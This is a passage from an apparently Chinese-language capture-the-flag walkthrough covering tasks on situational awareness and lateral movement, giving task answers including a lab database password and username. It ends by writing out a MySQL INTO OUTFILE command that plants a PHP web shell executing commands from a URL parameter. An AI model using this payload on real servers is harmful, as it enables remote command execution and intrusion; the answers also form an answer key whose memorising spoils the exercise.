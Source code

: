 ```

开启的端口有：22,80,3306,8080

**Task 16  Situational Awareness Living off the LANd**

> What is the Default Gateway for the Docker Container?

> 192.168.100.1

> What is the high web port open in the container gateway?

> 8080

> What is the low database port open in the container gateway?

> 3306


**Task 17  Situational Awareness Dorkus Storkus - Protector of the Database**

> What is the server address of the remote database?

> 192.168.100.1

> What is the password of the remote database?

> !123SecureAdminDashboard321!

> What is the username of the remote database?

> admin

> What is the database name of the remote database?

> DashboardDB

> What username can be found within the database itself?

> gurag

# L-SRV01

由于我们可以连接在```192.168.100.1```上的mysql服务，可以通过滥用mysql服务来横向到目标机器，这里的思路至少有两条
1. UDF
2. 生成一个web shell文件

这里生成一个web shell 文件
```
mysql> select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/cmd.php';
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/cmd.php';
Query OK, 1 row affected (0.00 sec)
